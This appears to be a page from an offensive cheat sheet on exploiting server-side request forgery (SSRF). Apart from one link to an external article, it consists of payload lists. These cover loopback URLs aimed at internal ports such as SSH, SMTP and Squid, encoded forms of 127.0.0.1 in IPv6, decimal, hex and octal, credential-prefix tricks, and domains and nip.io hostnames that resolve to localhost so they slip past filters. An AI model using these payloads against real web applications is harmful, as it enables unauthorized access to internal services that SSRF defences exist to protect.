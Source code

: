### **Ways to exploit**

[https://medium.com/@vickieli/exploiting-ssrfs-b3a29dd7437](https://medium.com/@vickieli/exploiting-ssrfs-b3a29dd7437)

### **By using localhost**

```markup
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
[or]
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
[or]
http://localhost:80
http://localhost:443
http://localhost:22
```

### **Bypass localhost with \[::] <a href="#id-6452" id="id-6452"></a>**

```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
http://127.1/
http://0000::1:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

### **Bypass localhost with a domain redirecting to localhost**

```
https://xyz.com --->> 127.0.0.1
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost

Other way 
use https://nip.io/
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, 
even 127.0.0.1.nip.io maps to 127.0.0.1
Like
http://customer1.app.localhost.my.company.127.0.0.1.nip.io will point to 127.0.0.1        
```
